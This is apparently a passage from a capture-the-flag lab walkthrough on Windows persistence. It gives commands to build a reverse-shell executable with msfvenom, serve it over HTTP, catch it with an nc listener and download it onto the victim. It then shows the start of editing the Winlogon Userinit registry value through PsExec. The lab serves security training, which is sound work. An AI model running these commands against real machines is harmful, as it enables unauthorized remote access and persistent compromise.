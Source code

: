 

**Kali**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4452 -f exe -o revshell.exe
```

**Kali**

```
python3 -m http.server
```

**Kali #2**

```
nc -lvnp 4452
```

**Victim(powershell)**

```
wget http://$KALI:8000/revshell.exe -O revshell.exe
```

**Victim(powershell)**

```
move revshell.exe C:\Windows
```

We then alter either `shell` or `Userinit` in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`. In this case we will use `Userinit`, but the procedure with `shell` is the same.

Note: While both `shell` and `Userinit` could be used to achieve persistence in a real-world scenario, to get the flag in this room, you will need to use `Userinit`.

**Victim(powershell)**

<pre><code><strong>C:\tools\pstools\PsExec64.exe -i -s regedit
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (20) (2).png" alt=""><figcaption></figcaption></figure>

